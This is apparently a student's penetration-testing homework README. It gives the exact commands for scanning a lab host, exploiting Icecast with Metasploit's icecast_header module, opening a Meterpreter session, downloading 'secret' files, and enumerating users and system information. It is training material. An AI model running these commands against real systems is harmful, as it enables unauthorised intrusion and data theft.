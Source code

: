 # **Brian C Williams 17-Penetration II Homework** # 

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

Perform a service and version scan using Nmap to determine which services are up and running:

1. Run the Nmap command that performs a service and version scan against the target.

	**Answer: nmap -sV 192.168.0.20**

	![Image of question1](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q1.PNG)

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast 	      	 exploits:

	Run the SearchSploit commands to show available Icecast exploits.

	**Answer: searchsploit icecast windows**

	![Image of q2](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q2.PNG)

3. Now that we know which exploits are available to us, let's start Metasploit:

	Run the command that starts Metasploit:
	
	**Answer: msfconsole** 

	![Image of q3](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/Q3.PNG)

4. Search for the Icecast module and load it for use.
	
	Run the command to search for the Icecast module:

	**Answer: search icecast**

	![Image of q4](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/Q4.PNG)

5. Run the command to use the Icecast module:
	
	Note: Instead of copying the entire path to the module, you can use the number in front of it.
        
	**Answer: use exploit/windows/http/icecast_header or use 0**
	
      ![Image of q5](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q5.PNG)

6. Set the RHOST to the target machine.
   
      Run the command that sets the RHOST:
	
      **Answer: set RHOST 192.168.0.20**
	
      ![Image of q6](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q6.PNG)
   
7. Run the Icecast exploit.

  	Run the command that runs the Icecast exploit.

	**Answer: run or exploit**
	
	![Image of q7](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q7.PNG)

8. Run the command that performs a search for the secretfile.txt on the target.

	**Answer**: search -f  *secretfile.txt**
	
	![Image of q8](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q8.PNG)

9. You should now have a Meterpreter session open.
   
      Run the command to performs a search for the recipe.txt on the target:

	**Answer**: search -f *recipe.txt
	
	![Image of q9](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q9.PNG)

	Bonus: Run the command that exfiltrates the recipe*.txt file:

	**Answer:** 	
			**download c:\\Users\\IEUser\\Documents\\Drinks.recipe.txt**
			**download c:\\Users\\IEUSER\\Documents\\user.secretfile.txt**
	
	![Image of bonus](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q10.PNG)
	![Image of bonus](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q12.PNG)

10. You can also use Meterpreter's local exploit suggester to find possible exploits.

	**Answer: run post/multi/recon/local_exploit_suggester**
	
	![Image of q10](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q11.PNG)

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

Bonus

A. Run a Meterpreter post script that enumerates all logged on users.
	
	**Answer: run post/windows/gather/enum_logged_on_users**

   ![Image of bonus1](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/B1.PNG)

B. Open a Meterpreter shell and gather system information for the target.
	
	**Answer: shell**
 		**systeminfo**
	
   ![Image of bonus2](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/B2.PNG)
	
C. Run the command that displays the target's computer system information:

	**Answer: sysinfo**
	
   ![Image of bonus3](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/B3.PNG)


